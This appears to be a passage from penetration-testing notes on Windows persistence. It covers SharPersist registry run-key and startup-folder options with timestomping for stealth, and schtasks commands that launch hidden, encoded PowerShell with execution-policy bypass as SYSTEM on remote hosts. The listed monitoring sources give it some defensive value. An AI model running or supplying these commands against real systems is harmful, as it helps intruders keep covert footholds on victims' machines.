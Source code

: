`SharPersist` supports persistence techniques through a number of `ASEP` keys,
specified with the `-k "<KEY_SPECIFIER>"` parameter:

  - `hklmrun`: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

  - `hklmrunonce`: `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

  - `hklmrunonceex`: `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx`

  - `hkcurun`: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

  - `hkcurunonce`: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

  - `logonscript`: `HKCU\Environment\`, key name `UserInitMprLogonScript`.
    Windows logon script executed at logon, that can be set at a domain level.
    May overwrite a legitimate logon script.

  - `stickynotes`: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\`,
    key name `RESTART_STICKY_NOTES`. Does not apply to Windows 10+. The
    `RESTART_STICKY_NOTES` registry key is set by the `Sticky Notes` utility
    to persist across reboot. The `Sticky Notes` utility re-set the
    `RESTART_STICKY_NOTES` key after being opened.

  - `userinit`: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`,
    key name `Userinit`.

```
SharPersist -t reg [-o env] -c "<BINARY_PATH>" [-a "<ARGUMENTS>"] -k "<KEY_SPECIFIER>" -v "<KEY_NAME>" -m add


```

`SharPersist` presents the advantage of performing timestomping on the created
`shortcut link` file and setting the file icon to `Internet Explorer` for
increased stealth.

```bash
# Lists the entries in the current user startup folder.
SharPersist.exe -t startupfolder -m list

# Adds a lnk file in the current user startup folder executing the specified executable.
SharPersist -t startupfolder -c "<BINARY_PATH>" [-a "<ARGUMENTS>"] -f "<LNK_FILE_NAME>" -m add

# Removes the specified startup folder entry.
SharPersist.exe -t startupfolder -f "<LNK_FILE_NAME>" -m remove
```

### Scheduled tasks

| ATT&CK | Persistence type | Privilege level required | Monitoring possibilities |
|--------|------------------|--------------------------|--------------------------|
| [T1053](https://attack.mitre.org/techniques/T1053/) | Code execution. | User or `Administrator`. | Windows default `Microsoft-Windows-TaskScheduler%4Operational.evtx` events. <br><br> Periodic review / validation of the `Scheduled tasks` configured. <br><br> Windows `API` monitoring. |

```
# <TASK_COMMAND> example with the Windows built-in cmd.exe or PowerShell:
cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>'
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>'
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD>
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -W Hidden -Enc <ENCODED_BASE64_CMD>

# Create a scheduled task to run PowerShell code for example
schtasks /create /tn "<TASK_NAME>" /tr "<TASK_COMMAND>" /sc once /sd <MM/DD/YYYY> /st <HH:MM:SS> /V1 /Z /RU "NT AUTHORITY\SYSTEM" /S <IP | HOSTNAME>

# The creation and status of the scheduled task can be validated
schtasks /query /tn "<TASK_NAME>" /S <IP | HOSTNAME>
schtasks /run /tn "<TASK_NAME>" /S <IP | HOSTNAME>
schtasks /delete /tn "<TASK_NAME>" /S <IP | HOSTNAME>
```
